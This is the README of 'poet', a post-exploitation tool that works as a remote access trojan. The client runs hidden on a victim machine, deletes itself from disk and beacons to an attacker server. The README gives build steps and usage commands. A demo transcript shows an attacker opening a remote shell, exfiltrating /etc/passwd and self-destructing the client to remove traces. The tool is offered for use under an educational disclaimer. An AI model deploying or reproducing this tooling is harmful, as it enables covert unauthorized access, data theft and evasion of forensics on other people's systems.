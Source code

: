 # poet

A simple POst-Exploitation Tool.

## overview

The client program runs on the target machine and is configured with an IP
address (the server) to connect to and a frequency to connect at. If the server
isn't running when the client tries to connect, the client quietly sleeps and
tries again at the next interval. If the server is running however, the
attacker gets a control shell to control the client and perform various actions
on the target including:

- reconnaissance
- remote shell
- file exfiltration
- download and execute
- self destruct

## getting started

Go to the [releases](http://github.com/mossberg/poet/releases) page and
download the latest `poet-client` and `poet-server` files available.

Then skip to the Usage section below.

Alternatively, you can build Poet yourself (it's pretty easy, see below).

## building

Make sure you have the `python2.7` and `zip` executables available.

```
$ git clone https://github.com/mossberg/poet
$ cd poet
$ make
```

This will create a `bin/` directory which contains `poet-client`
and `poet-server`.

## usage

Poet is super easy to use, and requires nothing more than the Python (2.7)
standard library. To easily test it out, a typical invocation would look like:

Terminal 1:

```
$ ./poet-client 127.0.0.1 1 --debug --no-selfdestruct
```

> By default, the Poet client daemonizes and deletes itself from disk, so
> that behavior is suppressed using the `--debug` and `--no-selfdestruct`
> flags.

Terminal 2:

```
$ sudo ./poet-server
```

> By default, the server needs to be run as root (using `sudo`) because
> the default port it binds to is 443. If that makes you uncomfortable, simply
> omit `sudo` and use the `-p <PORT>` flag on both the client and server. Pick a
> nice, high number for your port (> 1024).

### configuration

For any non-testing usage, it is recommended to change the client
authentication token by modifying `common/config.py` before building.
Note that pre-built packages use the default, public authentication token.

### client

```
$ ./poet-client -h
usage: poet-client [-h] [-p PORT] [--debug] [--no-daemon] [--no-selfdestruct]
                   IP [INTERVAL]

positional arguments:
  IP                    Poet Server
  INTERVAL              Beacon Interval, in seconds. Default: 600

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
  --debug               show debug messages. implies --no-daemon
  --no-daemon           don't daemonize
  --no-selfdestruct     don't selfdestruct
```

Poet is a client/server application. The client is executed on the target and
beacons back to the server at a certain time interval. The only required
argument is the IP address where the server is or will be running. Following
it can optionally be the time interval in seconds of how frequently to beacon
back, which defaults to 10 minutes. The port for the client to beacon out on
can be specified with the `-p` flag. All other flags would not be used during
"real" usage and exist mainly for debugging.

### server

```
$ ./poet-server -h
usage: poet-server [-h] [-p PORT] [-v]

optional arguments:
  -h, --help            show this help message and exit
  -p PORT, --port PORT
  -v, --version         prints the Poet version number and exits
```

The server is executed on the user's own machine and listens for beacons from
the client. By default, it listens on a privileged port (443) and must be run
with privileges (which are quickly dropped after binding). The `-p` flag can
be used to bypass this by selecting an unprivileged port to listen on (>1024).

## concerns

Documented concerns:

- lack of cryptographically protected communications
- low interval beacons are **noisy** and generate TCP RSTs when the server is
  inactive
- shell command is not a "real" shell and does not support most builtins found
  in standard shells

## demo

This is just a small sample of what Poet can do.

The scenario is, an attacker has gotten access to the victim's machine and
downloaded and executed the client.  She does not have
the server running at this point, but it's ok, the client waits patiently.
Eventually the attacker is ready and starts the server, first starting a shell
and executing `uname -a`, then exfiltrating `/etc/passwd`. Then she exits
and detaches from the client, which continues running on the target waiting for
the next opportunity to connect to the server. Later, she connects again,
self-destructing the client, removing all traces from the target.

Victim's Machine (5.4.3.2):

```
$ ./poet-client 1.2.3.4 10  # poet-client daemonizes, so there's nothing to see
```

> Warning: After running this command, you'll need to either run `selfdestruct`
> from the server, or kill the `poet-client` process to stop the client.

Attacker's Machine (1.2.3.4):

```
$ sudo ./poet-server

                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/
    /_/

[+] (06/28/15 03:58:42) Dropping privileges to uid: 501, gid: 20
[+] (06/28/15 03:58:42) Poet server started (port 443)
[+] (06/28/15 03:58:50) Connected By: ('127.0.0.1', 54494) -> VALID
[+] (06/28/15 03:58:50) Entering control shell
Welcome to posh, the Poet Shell!
Running `help' will give you a list of supported commands.
posh > help
Commands:
  chint
  dlexec
  exec
  exfil
  exit
  help
  recon
  selfdestruct
  shell
posh > shell
posh > user@server $ uname -a
Linux lolServer 3.8.0-29-generic #42~precise1-Ubuntu SMP Wed May 07 16:19:23 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
posh > user@server $ ^D
posh > exfil /etc/passwd
posh : exfil written to archive/20150628/exfil/passwd-201506285917.txt
posh > ^D
[+] (06/28/15 03:59:18) Exiting control shell
[-] (06/28/15 03:59:18) Poet server terminated
$ sudo ./poet-server

                          _
        ____  ____  ___  / /_
       / __ \/ __ \/ _ \/ __/
      / /_/ / /_/ /  __/ /
     / .___/\____/\___/\__/
    /_/

[+] (06/28/15 03:59:26) Dropping privileges to uid: 501, gid: 20
[+] (06/28/15 03:59:26) Poet server started (port 443)
[+] (06/28/15 03:59:28) Connected By: ('127.0.0.1', 54542) -> VALID
[+] (06/28/15 03:59:28) Entering control shell
Welcome to posh, the Poet Shell!
Running `help' will give you a list of supported commands.
posh > selfdestruct
[!] WARNING: You are about to permanently remove the client from the target.
    You will immediately lose access to the target. Continue? (y/n) y
[+] (06/28/15 03:59:33) Exiting control shell
[-] (06/28/15 03:59:33) Poet server terminated
```

## disclaimer

I am building Poet purely for my own education and learning experience.
The code is freely available because I think it might be useful to others
interested in learning about this sort of thing. Use it responsibly.
